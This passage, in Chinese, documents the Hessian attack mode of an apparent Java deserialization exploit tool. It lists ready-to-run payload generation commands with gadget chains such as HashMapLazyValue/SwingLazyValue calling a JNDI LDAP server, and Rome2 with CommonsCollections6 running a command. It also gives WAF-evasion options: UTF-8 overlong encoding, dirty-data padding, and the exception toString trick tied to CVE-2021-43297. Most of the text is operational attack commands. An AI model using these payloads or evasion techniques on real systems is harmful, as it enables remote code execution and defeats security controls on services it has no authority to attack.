 描述：Hessian Except toString利用链构造，在利用链序列化数据前面加67。Caucho Hessian1的except方法中没有触发Object的toString，所以它不存在Hessian Except toString打法。关于Hessian Except的利用链原理可以学习[Apache Dubbo Hessian2 异常处理时反序列化（CVE-2021-43297）](https://paper.seebug.org/1814/)​

工具：-hessianExcept参数后面无参数值

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian2" -hessianExcept
```

#### UTF8-Overlong Encoding

描述：Hessian序列化可使用UTF8-Overlong Encoding绕WAF，学习自:[Hessian UTF-8 Overlong Encoding](https://exp10it.io/2024/02/hessian-utf-8-overlong-encoding/)

工具：-utf8-bytes-mix参数后面无数据，

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian1" -utf8-bytes-mix

-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian2" -utf8-bytes-mix
```

#### dirt-data-length 添加脏数据

描述：Hessian序列化增加脏数据来绕WAF

工具：dirt-data-length参数后面是脏数据的数量

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian1" -dirt-data-length 1000

-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType "Hessian2" -dirt-data-length 1000
```

#### writeToFile 写入到文件

描述：将序列化后的数据写入到文件

工具：-writeToFile参数后面追加文件名

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389" -hessianType="Hessian2" -writeToFile="/tmp/hessian.ser"
```

### Rome2 打JavaJava反序列化

描述：利用Rome2利用链打Java反序列化

工具：-a后面的参数部分跟着Java的序列化利用链配置。

```bash
-m HessianAttack -g Rome2 -a "CommonsCollections6:raw_cmd:calc" -hessianType="Hessian2"
```
